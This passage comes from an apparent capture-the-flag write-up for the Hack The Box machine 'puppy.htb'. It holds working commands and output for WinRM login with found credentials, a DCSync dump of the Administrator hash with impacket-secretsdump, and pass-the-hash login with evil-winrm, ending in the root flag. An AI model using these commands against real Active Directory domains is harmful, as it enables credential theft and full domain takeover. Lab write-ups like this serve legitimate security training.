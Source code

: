 ```bash
HTTP        10.10.11.70     5985   DC               [*] http://10.10.11.70:5985/wsman
HTTP        10.10.11.70     5985   DC               [+] puppy.htb\ADAM.SILVER:Thebestpass0! (Pwn3d!)
```
great! lets login with winrm now

## Logging in as adam.silver
  
Log in and grab the user flag:
```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Thebestpass0!'
```

logged in successfully, then go to `\backups`, download the `zip` file, and find these creds for user steph cooper!
```bash
steph.cooper
ChefSteph2025!
```

remember our goal was `step.cooper_adm` because that user can DCSync the DC!!!! so we are almost done, lets perform DCSync

# Privesc
## DCsync

since we are now steph.cooper_adm , lets dcsync
```bash
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
```

## Logging in as Administrator

lets connect now via winrm
```bash
evil-winrm -i 10.10.11.70 -u ADMINISTRATOR -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```

root flag found!
```bash
5c1e91e476e66b7153b05c515f9cda5a
```

---------
# Summary
